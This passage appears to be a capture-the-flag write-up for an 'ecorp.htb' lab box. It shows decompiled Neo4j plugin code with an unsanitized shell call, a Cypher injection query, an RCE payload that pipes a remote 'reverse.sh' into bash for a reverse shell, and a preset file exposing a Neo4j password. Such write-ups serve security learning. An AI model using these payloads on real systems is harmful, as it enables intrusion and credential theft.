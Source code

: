 Here we have a file called *custom-apoc-extension-1.0-SNAPSHOT.jar*, after downloading it I tried to open it with jd-gui and I noticed that it is a plugin for neoj4

Reading it I saw this very interesting part of code... in fact thinking about it I noticed that I could try to do a command injection since the input was not sanitized

```
...
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };  
    System.out.println("Command: " + Arrays.toString((Object[])command));  
    Process process = Runtime.getRuntime().exec(command);
...
```

So I tried to use this plugin in injection

# Exploit

I have tried several ways, and have found success through this query:

```
' return h.value as value UNION CALL custom.getUrlStatusCode('http://10.10.14.6') YIELD statusCode AS value  RETURN value ; //
```

Ok what now? Now let's try to put a rce inside the query so that we can get access to the machine:

```
' return h.value as value UNION CALL custom.getUrlStatusCode('http://10.10.X.X; curl http://10.10.X.X/reverse.sh | bash') YIELD statusCode AS value  RETURN value ; //
```

We are inside!

# User

inside the home we can find a user called __graphasm__, here we can find the user that unfortunately we can not read. However we have a file bbot_preset.yml, reading it we have:

```
$ cat bbot_preset.yml

targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```
